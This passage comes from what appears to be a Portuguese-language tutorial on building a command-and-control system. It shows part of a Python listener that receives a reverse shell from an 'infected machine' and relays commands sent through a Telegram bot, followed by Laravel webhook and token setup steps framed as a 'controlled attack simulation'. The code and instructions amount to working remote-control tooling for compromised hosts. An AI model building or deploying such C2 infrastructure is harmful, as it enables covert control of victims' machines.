 ```python
print(f"Conexão de {address} estabelecida.")

event_handler = MeuHandler()
observer = Observer()
observer.schedule(event_handler, path=caminho_para_monitorar, recursive=False)
observer.start()

try:
    while True:
        time.sleep(1)
except KeyboardInterrupt:
    observer.stop()

observer.join()
client_socket.close()
server_socket.close()
```

#### Funcionamento do Código

**- Escuta de Porta:** Semelhante ao netcat, o script espera conexões na porta especificada, pronta para receber o shell reverso da máquina infectada.

**- Monitoramento de Arquivo:** Utilizanado a biblioteca watchdog para monitorar a criação de um arquivo específico (arquivo.txt), indicando a recepção de novos comandos via Telegram.

**- Execução de Comandos:** Ao detectar a criação do arquivo, lê seu conteúdo e envia os comandos para a máquina infectada, permitindo o controle remoto da mesma.

Este script descreve um método eficaz de interação entre componentes do sistema C2, facilitando a execução remota de comandos na máquina alvo. A simplicidade e eficácia do código Python aqui apresentado são vitais para o sucesso do projeto.

## Et voilá

Agora, vamos integrar as peças e simular um ataque controlado. Siga os passos abaixo para configurar e executar sua simulação:

**Configuração Inicial no arquivo .env do Laravel:**

Para iniciar, você precisa configurar algumas variáveis essenciais no arquivo .env do seu projeto Laravel. Essas variáveis são cruciais para estabelecer a comunicação entre o seu bot do Telegram e a aplicação. Configure as seguintes variáveis:

- TELEGRAM_TOKEN: Token do Telegram obtido durante a criação do seu bot.
- TELEGRAM_WEBHOOK: URL do Webhook associada à sua aplicação.
- TELEGRAM_FROM_ID: ID da conversa que foi iniciada entre o seu usuário e o bot.
- TELEGRAM_USER: Nome do usuário autorizado a enviar comandos para a máquina alvo.

**Configuração do Webhook via Navegador:**

É essencial acessar a rota de configuração (/config) pelo menos uma vez através do seu navegador. Isso permite configurar o Webhook no Telegram de forma adequada, garantindo que os comandos enviados para o bot seja recebidos na aplicação.
